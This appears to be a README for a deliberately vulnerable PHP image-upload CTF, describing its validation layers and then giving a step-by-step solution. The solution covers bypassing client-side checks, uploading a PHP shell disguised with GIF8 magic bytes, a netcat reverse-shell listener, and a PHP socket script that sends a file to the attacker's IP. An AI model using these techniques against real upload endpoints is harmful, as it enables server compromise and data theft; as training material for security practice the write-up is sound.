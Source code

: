 # PHP Web Vulnerable Project

This is a **simple PHP web application** that allows users to upload an image and convert it into ASCII art. The project demonstrates basic image upload functionality with a frontend and backend component.

### Key Features:

- **Frontend Image Controller**: A JavaScript validation (`image-validation.js`) ensures that only image files are selected before uploading.
- **Backend Image Controller**: On the server side, PHP uses **Magic Bytes** validation to ensure the uploaded file is actually an image before processing it.
- **Whitelist and Blacklist Filtering**: The uploaded file is checked against a whitelist and a blacklist to ensure it is an allowed file type. If the file is not explicitly allowed, additional checks are performed to inspect its magic bytes to verify it as a valid image.

---

## How It Works:

### 1. **Frontend Validation** (via `image-validation.js`):
When a user selects a file for upload, the `image-validation.js` script ensures that the selected file is an image (e.g., PNG, JPG). If the selected file passes this check, it is allowed for upload.

### 2. **Backend Validation**:
When the user clicks the **Upload** button, the file is sent to the server where it undergoes multiple checks:

- **Whitelist Check**: The file's extension is checked against a predefined list of allowed image extensions (`png`, `jpg`, `jpeg`, `bmp`, `gif`, `webp`). If the extension is in the whitelist, the file passes this check.
  
- **Blacklist Check**: If the file's extension is **not** in the whitelist, it is checked against a blacklist of dangerous or disallowed file types (e.g., `php`, `exe`, `zip`, `pdf`). If the file is on the blacklist, the upload is rejected.
  
- **Magic Bytes Check**: If the file is not on the whitelist or blacklist, the server checks the file’s **magic bytes** to ensure that the file is a valid image type. If the magic bytes do not match any of the allowed image MIME types (e.g., `image/jpeg`, `image/png`), the upload is rejected.

### 3. **Uploading the File**:
If the file passes all checks (whitelist, blacklist, and magic bytes validation), it is saved to the server in the `uploads/` directory. An ASCII representation of the image is then generated and saved to the `ascii_output/` directory. This ASCII representation is created using the `jp2a` command.

---

## Installation

To quickly set up and run this project, you can use Docker. The project is packaged as a Docker image available on Docker Hub.

### Steps to Install and Run with Docker:

1. **Pull the Docker Image**  
   To pull the Docker image for this project, use the following command:

   ```bash
   docker pull coduronin/web-ctf

2. **Run the Docker Container**  
   Once the image is pulled, run the container using this command:

   ```bash
   docker run -p 8080:80 coduronin/web-ctf

## Solution

To successfully retrieve the flag, follow these steps:

1. **Bypass Frontend Validation**:
   - Open **Burp Suite** and intercept the HTTP request.
   - Delete the `image-validation.js` file from the request to bypass the frontend image validation, allowing non-image files (such as a PHP shell) to be selected.

2. **Upload the PHP Shell**:
   - Choose a **PHP shell** with a `.phtml` extension. Normally, the file would be rejected, but after removing the frontend validation, you can now upload it.
   - Before uploading, modify the **magic bytes** of the file to make it appear as an image. A simple way is to add `GIF8` at the beginning of the file using Burp Suite (this mimics the magic bytes of an image file).

3. **Execute the Payload**:
   - Once the PHP shell is uploaded, set up a **listener** on your own machine to catch the reverse shell:
   
     ```bash
     nc -lvnp <your-port>
     ```

4. **Find the Flag**:
   - On the compromised system, navigate to the `/home` directory where you will find the `flag.pmg` file.
   - Copy the `flag.pmg` file to the `/tmp` directory for easier access:
   
     ```bash
     cp /home/flag.pmg /tmp/
     ```

5. **Transfer the Flag to Your Machine**:
   - On your machine, open a **netcat listener** to receive the file:
   
     ```bash
     nc -lvnp <your-port> > received_file.pmg
     ```

   - On the compromised machine, create and execute a simple PHP script to send the `flag.pmg` file to your machine:
   
     ```php
     echo "<?php
     \$host = 'IP';  // Replace with your machine's IP address
     \$port = port;  // Port to send the file on

     
     \$file = '/tmp/flag.pmg';  
     \$fp = fopen(\$file, 'rb');

     if (\$fp === false) {
         die('Failed to open file.');
     }

     // Create a socket connection
     \$socket = fsockopen(\$host, \$port);

     if (!\$socket) {
         die('Failed to connect to \$host:\$port.');
     }

     // Read the file and send it over the socket
     while (!feof(\$fp)) {
         \$data = fread(\$fp, 1024);  
         fwrite(\$socket, \$data);  
     }

     fclose(\$fp);
     fclose(\$socket);

     echo 'File sent successfully!';
     ?>" > send.php
     ```

6. **Fix the Magic Bytes**:
   - After receiving the `flag.pmg` file on your local machine, it may not be a valid PNG image due to the incorrect magic bytes. Modify the magic bytes of the file to match the correct PNG header (`89 50 4E 47 0D 0A 1A 0
   - Once the magic bytes are corrected, you can open the file as an image and view the flag.
By following these steps, you will successfully retrieve the flag from the compromised system.





